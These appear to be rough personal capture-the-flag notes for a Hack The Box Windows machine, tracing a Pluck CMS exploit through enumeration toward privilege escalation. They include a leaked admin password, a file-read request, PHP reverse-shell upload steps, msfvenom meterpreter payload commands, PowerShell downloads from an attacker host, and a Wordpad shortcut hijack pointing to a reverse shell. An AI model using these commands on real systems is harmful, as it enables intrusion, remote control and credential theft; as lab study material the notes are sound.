 ## WINDOWS - INSANE

## TARGET IP : 10.10.11.17

## RECON 

- [+] : port 80 open ONLY : cms running pluck 4.7.18 -> RCE but need to be authenticated

## FOOTHOLD 

- [+] : Admin password : lexypoo97

- [+] : GET /data/modules/albums/albums_getimage.php?image=admin_backup.php 

- [+] : Now Let's go back to the rce and upload revshell
```bash
Did it manually : go to options -> manage modules -> install a module 
where the http://10.10.11.17/admin.php?action=installmodule resides
since the payload couldnt access it for some reason 
upload zip file containing revshell in php make sure to try someones in revshells.com 
go to /data/modules/ to trigerr revshell
 
```
## ENUM  

- [+] : Get system information

```bash
C:\xampp\htdocs\data\modules\REV\mirabbas>systeminfo | findstr /b /C:"OS Name" /C"OS Version"

FINDSTR: /C ignored
FINDSTR: /  ignored
:0:
2:2:Host Name:                 MS01
3:35:OS Name:                   Microsoft Windows Server 2022 Standard
4:102:OS Version:                10.0.20348 N/A Build 20348
5:157:OS Manufacturer:           Microsoft Corporation
6:207:OS Configuration:          Member Server
7:249:OS Build Type:             Multiprocessor Free
8:297:Registered Owner:          Windows User
9:338:Registered Organization:   
10:367:Product ID:                00454-20165-01481-AA755
11:419:Original Install Date:     2/20/2024, 5:43:55 AM
12:469:System Boot Time:          3/30/2024, 9:58:08 PM
13:519:System Manufacturer:       Microsoft Corporation
14:569:System Model:              Virtual Machine
15:613:System Type:               x64-based PC
16:654:Processor(s):              1 Processor(s) Installed.
17:708:                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
18:801:BIOS Version:              Microsoft Corporation Hyper-V UEFI Release v4.1, 12/3/2020
19:888:Windows Directory:         C:\Windows
20:927:System Directory:          C:\Windows\system32
21:975:Boot Device:               \Device\HarddiskVolume1
22:1027:System Locale:             en-us;English (United States)
23:1085:Input Locale:              it;Italian (Italy)
24:1132:Time Zone:                 (UTC-08:00) Pacific Time (US & Canada)
25:1199:Total Physical Memory:     1,023 MB
26:1236:Available Physical Memory: 310 MB
27:1271:Virtual Memory: Max Size:  2,687 MB
28:1308:Virtual Memory: Available: 1,667 MB
29:1345:Virtual Memory: In Use:    1,020 MB
30:1382:Page File Location(s):     C:\pagefile.sys
31:1426:Domain:                    mist.htb
32:1463:Logon Server:              N/A
33:1495:Hotfix(s):                 3 Hotfix(s) Installed.
34:1546:                           [01]: KB5034613
35:1590:                           [02]: KB5035857
36:1634:                           [03]: KB5035970
37:1678:Network Card(s):           1 NIC(s) Installed.
38:1726:                           [01]: Microsoft Hyper-V Network Adapter
39:1794:                                 Connection Name: Ethernet
40:1854:                                 DHCP Enabled:    No
41:1908:                                 IP address(es)
42:1957:                                 [01]: 192.168.100.101
43:2013:Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.



```


------ bad revshell lets do a meterpreter

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.4 LPORT=4446 -f exe -o reverseNW1.exe

msfconsole

set payload windows/x64/meterpreter/reverse_tcp
set lhost 
set lport
exploit

powershell.exe Invoke-WebRequest -Uri http://10.10.14.4:7000/reverse.exe -UseBasicParsing -o reverse123.exe

powershell.exe Invoke-WebRequest -Uri http://10.10.14.4:7000/reverseNW1.exe -UseBasicParsing -o reverseNW1.exe

powershell.exe Invoke-WebRequest -Uri http://10.10.14.4:7000/SharpHound.exe -UseBasicParsing -o SharpHound.exe

powershell.exe Invoke-WebRequest -Uri http://10.10.14.4:7000/winPEAS.exe -UseBasicParsing -o winpisse.exe
[+] Checking for Credential Files ()
   [?]  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#dpapi

    CredFile                      :  C:\Users\svc_web\AppData\Local\Microsoft\Credentials\DFBE70A7E5CC19A398EBF1B96859CE5D
    Description                   :  Local Credential Data
    MasterKey                     :  629263bd-f503-4793-bab8-92b46354e0c3
    Accessed                      :  2/25/2024 5:42:18 AM
    Modified                      :  2/25/2024 5:42:18 AM
    Size                          :  11120

------------- dns

[+] DNS cached --limit 70-- (T1016)
    Entry                                 Name                                  Data
    dc01.mist.htb                         DC01.mist.htb                         192.168.100.100
    dc01.mist.htb                         DC01.mist.htb                         10.10.11.17
    dc01.mist.htb                         DC01.mist.htb                         192.168.100.100
    dc01.mist.htb                         DC01.mist.htb                         10.10.11.17
    
    ------------
    

[+] Ever logged users (T1087&T1033)
    MS01\Administrator
    MS01\svc_web
    MIST\Administrator
    MIST\Brandon.Keywarp
    MIST\Sharon.Mullard
    
    -------------------------
    
    HACKTRICKS

    C:\Users\svc_web : MS01\svc_web [FullControl]
    
[+] Password Policies (T1201)
   [?] This is insteresting for brute-force 

    Domain                        :  Builtin
    SID                           :  S-1-5-32
    MaxPasswordAge                :  42.22:47:31.7437440
    MinPasswordAge                :  00:00:00
    MinPasswordLength             :  0
    PasswordHistoryLength         :  0
    PasswordProperties            :  0
   =================================================================================================
    Domain                        :  MS01
    SID                           :  S-1-5-21-1075431363-3458046882-2723919965
    MaxPasswordAge                :  42.00:00:00
    MinPasswordAge                :  1.00:00:00
    MinPasswordLength             :  7
    PasswordHistoryLength         :  24
    PasswordProperties            :  DOMAIN_PASSWORD_COMPLEX
   =================================================================================================

C:\Windows\WinSxS\amd64_ipamprov-dcnps_31bf3856ad364e35_10.0.20348.1_none_29a6abe85afb6ce3\ScheduledTasks.xml
C:\Windows\WinSxS\amd64_ipamprov-dhcp_31bf3856ad364e35_10.0.20348.1_none_fd993ef2bc02316c\ScheduledTasks.xml
C:\Windows\WinSxS\amd64_ipamprov-dns_31bf3856ad364e35_10.0.20348.1_none_1afb49595ffda70a\ScheduledTasks.xml


msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.4 LPORT=4450 -f exe -o reverseNW1.exe
----------------------------------------
powershell.exe Invoke-WebRequest -Uri http://10.10.14.4:7000/reverseNW.exe -UseBasicParsing -o reverseNW.exe

powershell 

$shortcutPath = "C:\Common Applications\Wordpad.lnk"
$revPath = "C:\xampp\htdocs\data\modules\REV\mirabbas\reverseNW.exe"
$shell = New-Object -comObject WScript.Shell
$shortcut = $shell.CreateShortcut($shortcutPath)
$shortcut.TargetPath = $revPath 
$shortcut.Save()

.\Wordpad.lnk



